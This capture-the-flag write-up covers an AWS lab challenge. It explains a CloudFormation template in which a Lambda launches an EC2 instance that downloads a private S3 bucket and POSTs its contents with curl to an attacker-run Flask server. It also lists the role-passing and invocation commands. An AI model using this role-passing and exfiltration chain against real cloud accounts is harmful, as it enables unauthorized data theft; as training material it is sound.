 # Template configuration explanation:

* **Prerequisites:**
	* This config guide is for Unix-based CLIs only (syntax may vary).
	* Make sure you have AWC CLI installed.	
	
* **line 7**    `"FunctionName": "CreateVulnEC2Func",`
	* A function that will deploy a vulnerable EC2 instance with permissions to access the S3 pain bucket.

* **line 10**    `"Role": "arn:aws:iam::111111111111:role/brian_mcbride",` 
	* Your AWS account ID (required).
	* The role that lambda can use, allowing it to create functions with it.
	
* **line 21**    `"    instance_iam_role = \"arn:aws:iam::111111111111:instance-profile/landon_donovan\"",` 
	* Your aws account id (required).
	* This is the instance-profile that will be assigned to the the vulnerable EC2 instance, it has access perms to the S3 pain bucket, the instance will use it to breach it.
	
* **line 22**    `"    subnet_id = \"subnet-0d642c7d77641df48\"",` 
	* Replace with one of cloudfox VPC subnet ids (required).
	* The subnet of the "cloudfox" VPC in which the vulnerable instance will run
	* You can find subnet ids for the cloudfox VPC by following these steps:
		1.  `aws ec2 describe-vpcs --profile ctf-starting-user | grep cloudfox -A 10 | grep -i vpcid` (to find the cloudfox VPC ID)
		2. `aws ec2 describe-subnets --profile ctf-starting-user --filters "Name=vpc-id,Values=vpc-*yourcloudfoxvpcid*" | grep -i subnetid` (to find all available subnet IDs in the cloudfox VPC)
	
* **line 23**     `"    security_group_id = \"sg-0b0fc22e569bc0022\"",` 
	* replace with the security group ID related to the subnet above (required).
	* the security group that the vulnerable instance will use, it is needed because it allows full outbound access to the instance, therefore it will be able to send the the flag over to the flask server.
	* You can find the security group available in the VPC by typing this:
		* `aws ec2 describe-security-groups --profile ctf-starting-user --filters "Name=vpc-id,Values=vpc-*yourcloudfoxvpcid*" | grep -i securitygroup | sed 's/^.sg/sg/'` (remove the sed command if you get an error).

* **line 27**     `"            ImageId='ami-0036c16a0c45d97a4',",` 
	* or any AMI image of your choosing, linux/unix based (optional) this one is Amazon Linux.
	* Further configuration may require more changes if you change the AMI image,
	* This is the image that will be used to spin-up the EC2 instance.
	* The command to list publicly available on the AWS marketplace, free, Unix-based AMI images:
		* `aws ec2 describe-images \`
		    `--owners aws-marketplace \`
		    `--filters "Name=is-public,Values=true" \`
            `"Name=platform-details,Values=Linux/UNIX" \`
            `"Name=state,Values=available" \`
		    `--query 'Images[*].[ImageId, Name]' \`
		    `--output table \`
		  `--region us-west-2 \`
		  `--profile ctf-starting-user` (You may have to zoom out to see the output clearly).

* **Line 36**     `"            UserData=\"\"\"#!/bin/bash \n",` 
	* The `UserData` var will define a shell script that will be executed upon instance creation.
	* Change the Unix script convention to the one of your like or the one supported on the AMI image you chose - if you changed it.

* **Line 37**     `"yum install aws-cli -q -y \n",` 
	* This will install the AWS CLI if it is not intalled by default on the spun-up image
	* you may have to change the syntax of the command if you changed the AMI image, make sure the modified command does its function, produces little to no output (to prevent different kind of unneeded errors to do with too much output) and says yes to everything (as you can manually interact with the startup script to confirm the installation).

* **Line 38**     `"aws s3 sync s3://pain-s3-cfu08/ /home/ec2-user/ \n",`
	* This will download the contents of the pain S3 bucket to the default user's home directory.
	* Adjust the name of the S3 bucket to much the bucket name in your account.
	* Again if you changed your AMI instance: make sure the default user of the instance has root perms - to prevent the script from failing as you wont be able to login,  make sure to put the download directory to a directory where the user will be allowed to read/write files without denial of access (home directory is a reliable example).

* **Line 39**     `"flag=$(cat /home/ec2-user/*) \n",`
	* This command puts the contents of everything in the directory of where the bucket contents where downloaded - into a variable called `flag`.
	* Adjust the directory name if your changed the AMI image as needed.

* **Line 40**     `"curl -X POST` http://11.111.111.111:8080/ `-d $flag \n",`
	* Your public ip for where you will run your flask server and the port it will be running on, make sure that the port is open to public access or is forwarded to your host in your router settings (otherwise you can setup the flask server in another cloud-based VM using a 3rd party account and configure inbound access there).

* **Line 73**     `"Role": "arn:aws:iam::111111111111:role/brian_mcbride",`
	*  Same modifications a purpose as in line 10.

* **Line 85**     `"    ami_id = \"ami-0036c16a0c45d97a4\"",` 
	* Adjust if you changed your AMI image id, this will be the AMI image ID that the delete function will take as reference as to what instance to delete.

* **Line 88**     `"           {\"Name\": \"image-id\", \"Values\": [\"ami-0036c16a0c45d97a4\"]},",` 
	* Adjust if you changed your AMI image id, these are the filter options for mapping out the running instances matching the AMI image id value argument.

# Exploitation workflow:

1. First using the christian-pulisic role given in the challlenge (with permissions to initialise cloudformation templates) initialise a cloudformation stack from your local .json file containing the defined resources (the exploit) and pass the tab_ramos role (which has permissions to create lambda functions) whilst doing so, a sample command would look like this:
```
	aws cloudformation create-stack \
    --stack-name PainExploitLambdaFormation \
    --template-body file://stackformation_exploit.json \
    --role-arn arn:aws:iam::111111111111:role/tab_ramos \
    --profile chiristian-pulisic	
```

2. After that you should be able to see a successful output. If the output is good, you can check the stack in your cloud formation using a sample command like this:
```
	aws cloudformation list-stacks --profile ctf-starting-user
```

3. You should see something like this to do with your successfully deployed stack:
```
	"StackSummaries": [
	        {
	            "StackId": "arn:aws:cloudformation:us-west-2:111111111111:stack/PainExploitLambdaFormation/e5335730-fb4f-11ef-9f34-0a44bc585375",
	            "StackName": "PainExploitLambdaFormation",
	            "CreationTime": "2025-03-07T12:30:03.879000+00:00",
	            "StackStatus": "CREATE_COMPLETE",
	            "DriftInformation": {
	                "StackDriftStatus": "NOT_CHECKED"
	            }
	        },
```

4. You should also see 2 lambda functions that you configured in the json document (using a command such as: `aws lambda list-functions --profile ctf-starting-user --no-cli-pager | grep -i functionname`):
```
            "FunctionName": "DeleteVulnEC2Func",
            "FunctionName": "producer",
            "FunctionName": "furls1",
            "FunctionName": "executioner",
            "FunctionName": "auth-me",
            "FunctionName": "consumer",
            "FunctionName": "CreateVulnEC2Func",
```

5. Startup the python flask server using `python3 server.py` (after changing the port if needed and testing communication to the server from the outside using your public ip).

6. Invoke CreateVulnEC2Func using any profile (or no profile at all) and provide any output file name where you will be able to see if the function succeeded or not using a command like `aws lambda invoke --function-name CreateVulnEC2Func ./output-create --profile ctf-starting-user`. The response should be successful as well as the output in the file:
```
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```
```
{"statusCode": 200, "body": "EC2 Instance 'i-09503f36204307d45' launched successfully."}
```

7. Listen for the flag in the CLI output of the flask server, after some time you should see a POST request and its contents containing the flag:
```
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.0.144:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 152-436-769
Received Form Data: ImmutableMultiDict([('FLAG{pain::pulisic_is_proud_of_you}', '')])
35.91.130.226 - - [08/Mar/2025 14:39:29] "POST / HTTP/1.1" 200 -
```

8. After that, close the flask server and invoke DeleteVulnEC2Func the same way you executed the create function, provide an output file to see if it has succeeded, if the status code is 200 in the response and the output in the output file looks like the one below - you have successfully completed the challenge.
```
{"statusCode": 200, "body": "Terminated EC2 instance with id: i-06a939ac79a6f6068"}
```
